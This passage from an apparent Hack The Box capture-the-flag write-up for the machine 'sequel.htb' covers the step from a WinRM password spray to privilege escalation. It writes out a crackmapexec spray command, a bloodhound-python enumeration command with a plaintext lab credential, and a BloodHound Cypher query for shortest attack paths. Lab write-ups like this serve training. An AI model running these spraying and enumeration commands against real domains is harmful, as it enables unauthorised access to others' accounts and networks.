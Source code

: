 and go on with a passwords spray attack :sparkler:

```bash
crackmapexec winrm -u users.lst -p pass.lst --continue-on-success sequel.htb
```

<figure><img src="../../.gitbook/assets/image (929).png" alt=""><figcaption></figcaption></figure>

And finally get the user flag:

<figure><img src="../../.gitbook/assets/image (930).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation (Administrator)

Using this valid pair of domain credential, start internal enumeration with Bloodhound:

{% code overflow="wrap" %}
```bash
bloodhound-python -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 -ns 10.10.11.51 -c All -v 
```
{% endcode %}

Use this QUERY to find the shortest path from owned principals (RYAN) to value targets:

```
MATCH p=shortestPath((c {owned: true})-[*1..2]->(s)) WHERE NOT c = s RETURN p
```
